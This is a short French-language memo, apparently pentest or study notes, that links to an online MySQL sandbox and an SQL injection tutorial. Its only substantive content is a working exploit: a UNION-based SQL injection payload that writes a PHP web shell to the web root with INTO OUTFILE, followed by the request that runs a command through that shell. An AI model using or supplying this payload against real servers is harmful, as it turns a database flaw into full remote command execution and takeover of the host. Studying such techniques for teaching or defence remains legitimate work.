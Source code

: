 
https://extendsclass.com/mysql-online.html

https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/

''Passage à RCE''

cod=1+union+select+1,2,3,4,5,6,'<?php_system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
/cmd.php?cmd=id
